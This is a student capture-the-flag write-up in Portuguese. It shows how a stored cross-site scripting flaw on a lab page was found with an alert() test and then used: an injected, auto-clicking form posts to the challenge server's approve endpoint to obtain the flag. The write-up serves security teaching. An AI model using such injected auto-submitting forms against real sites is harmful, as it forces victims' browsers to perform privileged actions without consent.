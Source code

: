 Para realizar este ctf, teremos de trabalhar a partir desta página:

![Alt text](image-8.png)

A partir dessa página, apercebemo-nos que poderíamos testar se input que aí pediam era filtrado ou não. Para testar essa condição, decidimos criar uma função `alert()`, da seguinte maneira:

```
<script>alert("Teste");</script>
```

Obtendo este resultado:

![Alt text](image-5.png)

A seguir, colocamos este script...

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/%7Binserir ID do pedido}/approve" role="form"><div class="submit">  <input type="submit" id="giveflag" value="Give the flag"></div></form><script>document.getElementById("giveflag").click();</script>
```

...no input da página e submetemos assim.

O resultado que nos dará será este:

![Alt text](image-6.png)

Voltamos atrás da página e visualizamos o código fonte desta, graças às funcionalidades do noso browser e alteramos o url da página, adicionando ao request desta, o id inicial, o que nos dá este resultado.


![Alt text](image-7.png)


Ao vizualizar esta imagem é possível perceber que o id da nossa flag encontra-se presente.


![Alt text](image-9.png)